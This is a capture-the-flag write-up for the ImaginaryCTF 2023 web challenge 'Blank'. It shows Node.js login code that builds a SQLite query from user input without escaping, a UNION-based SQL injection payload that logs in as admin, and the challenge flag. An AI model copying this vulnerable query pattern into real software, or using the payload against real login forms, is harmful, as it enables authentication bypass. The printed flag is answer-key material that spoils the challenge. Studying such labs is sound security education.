 ```yaml
---
name: Blank (2023)
event: Imaginary 2023
category: Web
description: Writeup for Blank (Web) - Imaginary (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Blank

## Description

> I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

Source code is provided, so let's review it before we check [the site](http://blank.chal.imaginaryctf.org).

## Recon

We need to login as admin to access the `/flag` endpoint.

```js
app.get("/flag", (req, res) => {
    if (req.session.username == "admin") {
        res.send(
            "Welcome admin. The flag is " + fs.readFileSync("flag.txt", "utf8")
        );
    } else if (req.session.loggedIn) {
        res.status(401).send("You must be admin to get the flag.");
    } else {
        res.status(401).send("Unauthorized. Please login first.");
    }
});
```

The `/login` endpoint appears to be vulnerable to [SQL injection](https://portswigger.net/web-security/sql-injection)

```js
app.post("/login", (req, res) => {
    const username = req.body.username;
    const password = req.body.password;

    db.get(
        'SELECT * FROM users WHERE username = "' +
            username +
            '" and password = "' +
            password +
            '"',
        (err, row) => {
            if (err) {
                console.error(err);
                res.status(500).send("Error retrieving user");
            } else {
                if (row) {
                    req.session.loggedIn = true;
                    req.session.username = username;
                    res.send("Login successful!");
                } else {
                    res.status(401).send("Invalid username or password");
                }
            }
        }
    );
});
```

A `users` table is inserted into the database, but no users are added! We'll need to specify the username as `admin` and use SQLi to bypass the password check.

Additionally, the database type is `sqlite3`, so we'll need to [craft payloads accordingly](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration)

Sending a double quote will create an error in the SQL statement, returning 500.

```sql
"
```

We can use a UNION query, ensuring that the number of columns matches the expected.

```sql
" UNION SELECT 420, "admin", "cat" --
```

Now, we just need to visit http://blank.chal.imaginaryctf.org/flag and receive our flag.

Flag: `ictf{sqli_too_powerful_9b36140a}`
